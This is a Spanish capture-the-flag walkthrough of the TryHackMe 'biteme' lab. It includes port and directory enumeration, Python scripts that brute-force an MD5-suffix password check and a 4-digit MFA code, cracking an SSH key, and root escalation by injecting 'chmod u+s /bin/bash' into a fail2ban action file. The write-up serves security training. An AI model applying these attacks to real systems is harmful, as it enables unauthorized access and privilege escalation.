







En esta maquina tendremos que tener en cuenta el analisis del codigo fuente en `php` de la aplicación web durante la prueba de pentesting, asi mismo realizaremos un script en python para automatizar el proceso de encontrar la contraseña y codigo correcta. Para la escalada de privilegios tendremos que explotar los permisos que tiene el usuario sobre la ejecucion de un binario que es `fail2ban`.



- Link [biteme](https://tryhackme.com/room/biteme)

- Created by  [fire015](https://tryhackme.com/p/fire015)

# Walkthrough
--- 

## Enumeración

Iniciamos como en todas las maquinas realizando un nmap enumerando solo los puertos abiertos, ya que si lanzamos la enumeración de versiones y servicios esto tomara mucho tiempo.

```php
❯ nmap -p- --open --min-rate 1000 -vvv -Pn -n 10.10.154.198 -oG allportsScan
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

```

Teniendo los puertos abiertos `22` y `80` procederemos a enumerar las versiones y servicios que se ejecuten en este. 

```php
❯ nmap -p22,80 -sC -sV -Pn -vvv -n 10.10.154.198 -oN servicesScan
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89:ec:67:1a:85:87:c6:f6:64:ad:a7:d1:9e:3a:11:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOkcBZItsAyhmjKqiIiedZbAsFGm/mkiNHjvggYp3zna1Skix9xMhpVbSlVCS7m/AJdWkjKFqK53OfyP6eMEMI4EaJgAT+G0HSsxqH+NlnuAm4dcXsprxT1UluIeZhZ2zG2k9H6Qkz81TgZOuU3+cZ/DDizIgDrWGii1gl7dmKFeuz/KeRXkpiPFuvXj2rlFOCpGDY7TXMt/HpVoh+sPmRTq/lm7roL4468xeVN756TDNhNa9HLzLY7voOKhw0rlZyccx0hGHKNplx4RsvdkeqmoGnRHtaCS7qdeoTRuzRIedgBNpV00dB/4G+6lylt0LDbNzcxB7cvwmqEb2ZYGzn
|   256 7f:6b:3c:f8:21:50:d9:8b:52:04:34:a5:4d:03:3a:26 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOZGQ8PK6Ag3kAOQljaZdiZTitqMfwmwu6V5pq1KlrQRl4funq9C45sVL+bQ9bOPd8f9acMNp6lqOsu+jJgiec4=
|   256 c4:5b:e5:26:94:06:ee:76:21:75:27:bc:cd:ba:af:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMpXlaxVKC/3LXrhUOMsOPBzptNVa1u/dfUFCM3ZJMIA
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Enumerando versión  y servicio de cada uno de los puertos procederemos a seguir enumerando. 
### Puerto 80

Visitando el sitio web encontramos lo siguiente:



Para poder seguir enumerando el contenido del sitio web, procederemos enumerar los directorios del sitio web.

```php
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 404 -fl 376 -u http://10.10.154.198/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.154.198/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
 :: Filter           : Response lines: 376
________________________________________________

console                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 186ms]

```

El directorio que encontramos es `console`, pero seguiremos enumerando el contenido web que se tiene.

```php
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -u http://10.10.154.198/console/ -x txt,php,bak,zip

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.154.198/console/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              bak,zip,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 3961]
/.php                 (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 320] [--> http://10.10.154.198/console/css/]
/config.php           (Status: 200) [Size: 0]
/robots.txt           (Status: 200) [Size: 25]
/dashboard.php        (Status: 302) [Size: 0] [--> index.php]
/functions.php        (Status: 200) [Size: 0]
/mfa.php              (Status: 302) [Size: 0] [--> index.php]
```

Luego de enumerar encontramos los siguientes archivos:
- /config.php
- /robots.txt
- /dashboard.php
- /functions.php
- /mfa.php   

Buscando un poco de información sobre php, se puede agregar a una `s` a `dashboard.phps` se puede visualizar el código fuente [function.highlight-file](https://www.php.net/manual/en/function.highlight-file.php). 

En lo siguiente podremos ver el código fuente de cada uno de los archivos `.php`

- `http://10.10.21.12/console/index.phps`.

```php
<?php
session_start();

include('functions.php');
include('securimage/securimage.php');

$showError = false;
$showCaptchaError = false;

if (isset($_POST['user']) && isset($_POST['pwd']) && isset($_POST['captcha_code']) && isset($_POST['clicked']) && $_POST['clicked'] === 'yes') {
    $image = new Securimage();

    if (!$image->check($_POST['captcha_code'])) {
        $showCaptchaError = true;
    } else {
        if (is_valid_user($_POST['user']) && is_valid_pwd($_POST['pwd'])) {
            setcookie('user', $_POST['user'], 0, '/');
            setcookie('pwd', $_POST['pwd'], 0, '/');
            header('Location: mfa.php');
            exit();
        } else {
            $showError = true;
        }
    }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <title>Sign in</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.6.0/dist/css/bootstrap.min.css" integrity="sha384-B0vP5xmATw1+K9KRQjQERJvTumQW0nPEzvF6L/Z6nronJ3oUOFUFpCjEUQouq2+l" crossorigin="anonymous">
    <link rel="stylesheet" href="/console/css/style.css">
    <script>
      function handleSubmit() {
        eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('0.1(\'2\').3=\'4\';5.6(\'@7 8 9 a b c d e f g h i... j\');',20,20,'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'),0,{}))
        return true;
      }
    </script>
  </head>
  <body class="text-center">
    <form action="index.php" method="post" class="form-signin" onsubmit="return handleSubmit()">
        <h1 class="h3 mb-3 font-weight-normal">Please sign in</h1>
        <input type="text" name="user" class="form-control" placeholder="Username" required>
        <input type="password" name="pwd" class="form-control" placeholder="Password" required>
        <?php echo Securimage::getCaptchaHtml(); ?>
        <button class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
        <input type="hidden" name="clicked" id="clicked" value="">
        <?php if ($showCaptchaError): ?><p class="mt-3 mb-3 text-danger">Incorrect captcha</p><?php endif ?>
        <?php if ($showError): ?><p class="mt-3 mb-3 text-danger">Incorrect details</p><?php endif ?>
    </form>
  </body>
</html>
```

- `http://10.10.21.12/console/functions.phps`

```php
 <?php
include('config.php');

function is_valid_user($user) {
    $user = bin2hex($user);

    return $user === LOGIN_USER;
}

// @fred let's talk about ways to make this more secure but still flexible
function is_valid_pwd($pwd) {
    $hash = md5($pwd);

    return substr($hash, -3) === '001';
} 
```

- `http://10.10.21.12/console/config.phps`:

```php
 <?php

define('LOGIN_USER', '6a61736f6e5f746573745f6163636f756e74'); 
```

Para obtener el contenido en texto plano realizaremos lo siguiente:

```php
echo 6a61736f6e5f746573745f6163636f756e74 | xxd -r -p
jason_test_account
```

Tenemos el `usuario` que es valido. Visualizando el código vemos que se hace una comparativa de los tes últimos dígitos de un hash, este hash es generado al ingresar la contraseña. 
## Explotación

Para automatizar el proceso de encontrar la palabra que al convertir un hash md5 en los tres últimos dígitos  contengo `001`.

```python
#!/usr/bin/python3

import sys
from pwn import *
import hashlib
import signal

  

def crtl_C(signal,frame ):
	print(" [!] Exting...")
	sys.exit(0)

signal.signal(signal.SIGINT, crtl_C)

def hash_md5(word):
	hashmd5=hashlib.md5(word.encode())
	hex_hashmd5=hashmd5.hexdigest()
	if hex_hashmd5.endswith("001"):
		print(word,end="")

if __name__=='__main__':
file = open('/usr/share/wordlists/rockyou.txt', 'r', encoding='latin-1')
p1=log.progress("Data")

for word in file:
	p1.status("Validando password %s" %(word))
	hash_md5(word)
```

Ejecutando el el script encontraremos las palabras que al pasarlo a hash md5 terminan en `001`.

```php
❯ python3 find_003.py
[ ] Data: Validando password disney4
violet
gymnastics
chingy
sugarplum
raiden
122187
stokes
080884
021105
BLONDIE
flordeliza
.
.
.
```

Haciendo uso de las credenciales: `jason_test_account : violet` pasaremos a un panel donde debemos ingresar un código.



Para encontrar el código realizaremos un script en python3, pero haciendo uso de las cabeceras donde esta la cookie de la sesión iniciada.

```python
#!/usr/bin/python3

import requests
import signal
from pwn import *

def ctrl_C(signal,frame):
	print("[+] Saliendo..")
	exit(1)

signal.signal(signal.SIGINT, ctrl_C)

url = 'http://10.10.102.15/console/mfa.php'
headers = {
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
'Accept-Language': 'es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3',
'Accept-Encoding': 'gzip, deflate, br',
'Content-Type': 'application/x-www-form-urlencoded',
'Connection': 'close',
'Cookie': 'PHPSESSID=rs5hqrij41to7vs7ri9ob5tabn; user=jason_test_account; pwd=violet'
}

def send_code():
	file=open("/usr/share/seclists/Fuzzing/4-digits-0000-9999.txt","r")
	p1=log.progress("Data Code: ")
	for code in file:
		p1.status("Validando Code: %s" %(code))
		#print(code.split())
		data = {'code': code.split()}
		response = requests.post(url, headers=headers, data=data)
		if 'Incorrect code' in response.text:
			pass
		else:
			print(code)
if __name__=='__main__':
	send_code()
```

Ejecutamos el script y esperamos unos minutos para encontrar el código.

```python
❯ python3 fuzzing.py
[▝] Data Code: : Validando Code: 1990
1835

```

Al ingresar el código valido, la web nos redijera a un panel donde se hace búsquedas de archivos y visualizarlos.



Enumeraremos los usuarios del sistema haciendo uso de los buscadores y encontraremos con el usuario `jason` que en directorio `/home/jason/.ssh/id_rsa`. Este `id_rsa` esta encriptado, para encontrar el la contraseña del `id_rsa` haremos uso de `ssh2john`  

```php
/home/jason/.ssh/id_rsa
❯ ssh2john id_rsa > hash
```

Teniendo el hash, procederemos a crackear este con John The Ripper para obtener la contraseña.

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1a2b3c4d         (id_rsa)     
1g 0:00:00:00 DONE (2023-12-09 12:46) 7.142g/s 35885p/s 35885c/s 35885C/s christina1..dumnezeu
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
## Escalada de privilegios

Cambiando los permisos del `id_rsa` con el siguiente comando `chmod 600 id_rsa` para poder hacerlo uso.



### Usuario: Jason

Enumerando los permisos del usuario del `jason` podemos ver los siguientes permisos.

```php
jason@biteme:~$ sudo -l
Matching Defaults entries for jason on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on biteme:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL

```

Teniendo los permisos `(fred) NOPASSWD: ALL`, para escalar privilegios a `fred` ejecutaremos una `/bin/bash` como el usuario `fred`.

```php
jason@biteme:~$ sudo -u fred /bin/bash
fred@biteme:~$ whoami
fred
```

### Usuario: fred

Enumerando los permisos de `fred` haremos uso de `sudo -l` para visualizar los permisos de ejecución con privilegios. Vemos que tenemos permisos de ejecutar `/bin/systemctl restart fail2ban` con privilegios de usuario root. 

```php
fred@biteme:~$ sudo -l
Matching Defaults entries for fred on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on biteme:
    (root) NOPASSWD: /bin/systemctl restart fail2ban
```

Fail2ban es una aplicación de software de código abierto diseñada para mejorar la seguridad de los servidores Linux al protegerlos contra ataques de fuerza bruta y otros tipos de ataques automatizados. La idea principal detrás de Fail2ban es detectar patrones de comportamiento malicioso en los registros (logs) del sistema y tomar medidas para prevenir o mitigar esos ataques.

Fail2ban utiliza filtros para definir patrones y acciones para especificar qué hacer cuando se detecta un patrón. Los filtros y acciones están definidos en archivos de configuración, lo que permite una personalización adecuada según las necesidades del administrador del sistema.

Integración con iptables o firewalld: Fail2ban a menudo trabaja en conjunto con iptables (o firewalld, dependiendo de la distribución de Linux) para agregar reglas de firewall dinámicamente y bloquear el tráfico de las direcciones IP que se consideran maliciosas.

Para escalar privilegios por vía [fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/) modificaremos el archivo `/etc/fail2ban/action.d/iptables-multiport.conf` para inyectar nuestro código malicioso.

```php
fred@biteme:~$ ls -la /etc/fail2ban/action.d/iptables-multiport.conf
-rw-r--r-- 1 fred root 1420 Dec  9 18:06 /etc/fail2ban/action.d/iptables-multiport.conf
nano /etc/fail2ban/action.d/iptables-multiport.conf
```

Ahora inyectaremos nuestro comando para cambiar los permisos de la `/bin/bash` con el siguiente comando `actionban=/bin/bash -c 'chmod u+s /bin/bash'`. 

```php
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban=/bin/bash -c 'chmod u+s /bin/bash'

# Option:  actionunban
```
### Usuario: root

Ahora para que se ejecute el el comando que inyectamos, realizaremos varios intentos fallidos al logarnos por ssh.



Esperamos unos minutos para iniciar sesión y ejecutamos una `bash -p` 



¡VAMOS!

Happy hacking :)